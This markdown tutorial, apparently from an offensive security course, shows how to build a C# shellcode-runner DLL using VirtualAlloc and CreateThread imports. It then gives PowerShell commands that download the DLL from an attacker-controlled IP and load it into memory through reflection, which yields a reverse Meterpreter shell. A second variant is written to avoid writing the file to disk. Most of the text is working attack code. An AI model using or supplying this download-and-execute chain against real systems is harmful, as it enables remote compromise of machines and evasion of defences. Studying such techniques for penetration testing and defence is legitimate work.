

# Reflective Load Basics

We'll create a new project in the solution to house our code by right-clicking Solution 'ConsoleApp1' in the Solution Explorer, navigating to Add, and clicking New Project.


From the Add a new project menu, we'll select Class Library (.Net Framework), which will create a managed DLL when we compile


After clicking Next, we'll accept the default name of ClassLibrary1, click Create, and accept the security warning about remote projects.

**DllImports and definition of runner method**
```
public class Class1
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
     uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public static void runner()
    {
    }
```

Next we'll copy the exact content of the Main method of the ConsoleApp1 project into the runner method. We'll also need to replace the namespace imports to match those of the ConsoleApp1 project.

With the C# code complete, we can compile it and copy the resulting DLL (ClassLibrary1.dll) into the web root of our Kali Linux machine.

**Downloading the assembly and loading it into memory**
```
(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/ClassLibrary1.dll', 'C:\Users\Offsec\ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::LoadFile("C:\Users\Offsec\ClassLibrary1.dll")
```

After the assembly is loaded, we can interact with it using reflection through the GetType and GetMethod methods, and finally call it through the Invoke method:
```
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

Executing this PowerShell results in a reverse Meterpreter shell, but it will download the assembly to disk before loading it. We can subvert this by instead using the Load method, which accepts a Byte array in memory instead of a disk file. In this case, we'll modify our PowerShell code to use the DownloadData method of the Net.WebClient class to download the DLL as a byte array.
```
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

With this change, we have successfully loaded precompiled C# assembly directly into memory without touching disk and executed our shellcode runner.